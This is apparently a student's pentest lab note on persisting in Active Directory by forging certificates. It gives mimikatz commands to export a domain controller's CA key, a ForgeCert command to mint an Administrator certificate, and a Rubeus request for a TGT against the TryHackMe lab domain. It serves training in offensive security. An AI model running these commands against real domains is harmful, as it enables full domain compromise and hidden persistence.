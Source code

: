 #mimikatz #rubeus 
- We can use certificates to maintain persistence
- Valid certificate can be used for client authentication to get TGT.
- To prevent this form persistence, blue team needs to revoke the certificate. This is the only way to defend.
# Exploitation
- We need to get the private key of the root CA's certificate, after which we can create our own certificate.
- Usually the key is protected by the HSM (Hardware Security Module).
- If HSM is not used, [DPAPI](../../Windows/Windows%20Internals/Uncategorized/DPAPI.md) is used. In such case we can use mimikatz and other tools.
- List certificates stored on the Domain Controller using mimikatz
```powershell
crypto::certificates /systemstore:local_machine
```
- Patching to make the private key exportable
```powershell
privilege::debug
crypto::capi
crypto::cng
```
- Exporting the certificates now
```powershell
crypto::certificates /systemstore:local_machine
# this will export the certificate in .der and .pfx format
# password for these CA cert is "mimikatz"
```
- Now we can sign our own certificate using the `ForgeCert.exe` tool.
```powershell
.\ForceCert.exe --CaCertPath ca-cert.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Passw0rd123
```
- The new certificate can be used to ask for a TGT from the domain controller
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Passw0rd123 /outfile:tgt.kirbi /domain:za.tryhackme.loc /dc:10.10.10.10
```